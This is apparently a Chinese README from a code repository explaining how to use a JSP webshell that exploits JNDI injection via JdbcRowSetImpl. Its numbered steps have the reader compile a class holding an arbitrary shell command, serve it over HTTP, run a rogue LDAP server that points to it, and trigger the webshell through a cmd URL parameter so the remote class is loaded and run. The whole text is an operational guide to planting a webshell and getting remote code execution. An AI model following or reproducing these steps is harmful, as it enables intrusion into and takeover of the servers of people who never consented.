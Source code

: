 ### JdbcRowSetImpl进行jndi注入的JSP WebShell

因为引入了ldap sdk，所以，需要去maven仓库下载个unboundid-ldapsdk-3.1.1.jar

具体的使用：

1. 修改Calc.java中的cmd局部变量为需要执行的shell命令，然后执行javac Calc.java编译得到Calc.class
2. 把上一步得到的Calc.class放到webshell运行环境可访问的http服务器中
3. 把LdapServer.java、OperationInterceptor.java、unboundid-ldapsdk-3.1.1.jar放到同一目录下，执行编译javac -cp unboundid-ldapsdk-3.1.1.jar:. LdapServer.java
4. 执行jar cvf LdapServer.jar LdapServer.class OperationInterceptor.class打包成LdapServer.jar
5. 把LdapServer.jar、unboundid-ldapsdk-3.1.1.jar放到同一目录下，java -cp LdapServer.jar:unboundid-ldapsdk-3.1.1.jar LdapServer 12345 "http://127.0.0.1:80/#Calc",其中12345为ldap server的端口，"http://127.0.0.1:80/#Calc"中的127.0.0.1:80为上一步中可访问的http服务器，因为Calc.class存放于http服务器根目录，所以为Calc（Calc存放在http服务器的文件有后缀.class，但是参数不需要.class）
6. 把jsp放到tomcat的webapps/ROOT/中，访问http://127.0.0.1:8080/13.jsp?cmd=ldap://127.0.0.1:12345，cmd参数即为刚刚上一步启动的ldap server的url